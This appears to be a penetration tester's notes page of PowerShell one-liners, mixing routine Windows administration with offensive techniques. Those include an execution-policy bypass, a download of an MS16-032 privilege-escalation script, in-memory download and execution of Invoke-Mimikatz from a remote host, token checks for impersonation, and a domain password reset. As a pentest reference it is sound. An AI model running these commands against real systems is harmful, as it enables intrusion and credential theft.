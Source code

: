 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Powershell Commands

Run Powershell Commands from Command Prompt

~~~PowerShell
powershell -c “<Command to run>”
~~~

Run Powershell File (.ps1) from Command Line

~~~PowerShell
powershell -ExecutionPolicy bypass -f "powershell_file.ps1" -parameter data
~~~

Download File/Executable from HTTP Server

~~~PowerShell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.7.30/Windows/ms16-032.ps1','MS16-032.ps1')"
~~~

Download File/Executable from HTTP Server and Execute in Memory with Arguments

~~~PowerShell
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.19.55/Windows/Powershell/Nishang/Gather/Invoke-Mimikatz.ps1');Invoke-Mimikatz
~~~

Run Executable As Its Own Process

~~~PowerShell
Start-Process "shell-name.exe"
~~~

Determining Available Tokens for Impersonation

~~~PowerShell
whoami /priv
~~~

Stopping and Starting Services

~~~PowerShell
sc stop <servicename>
sc start <servicename>
~~~

Querying Service Configurations

~~~PowerShell
sc qc <servicename>
~~~

Querying Service States

~~~PowerShell
sc query <servicename>
~~~

Setting Password as Convert to Secure String for use with Setting a DomainUserPassword

~~~PowerShell
$UserPassword=ConvertTo-SecureString ‘P@ssw0rd1234’ -AsPlainText -Force
Set-DomainUserPassword -Identify <DomainUserAccount> -AccountPassword $UserPassword
~~~

Parameters within scripts

~~~PowerShell
<#
Sets parameters for scripting that can be used in the command line
.ex
script.ps1 -Variable1 V1Data -Variable2 V2Data -Variable3 V3Data
#>
param ($Variable1, $Variable2, $Variable3)
~~~

Setting Password for Local Users

~~~PowerShell
$Password = ConvertTo-SecureString $Pass -AsPlainText -Force
$UserAccount = Get-LocalUser -Name "user"
$UserAccount | Set-LocalUser -Password $Password
~~~

Renaming Computer

~~~PowerShell
Rename-Computer -NewName $CompName
~~~

Setting Bitlocker Key and then Creating a file with the recovery key information

~~~PowerShell
#Set Bitlocker key
Enable-BitLocker -MountPoint "C:" -RecoveryPasswordProtector -EncryptionMethod XtsAes256 -UsedSpaceOnly -SkipHardwareTest
#Create text file with Recovery Key Information
$BVol = Get-BitLockerVolume -MountPoint "C"
$Bvol.KeyProtector > C:\Users\user\Documents\recovery.txt
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

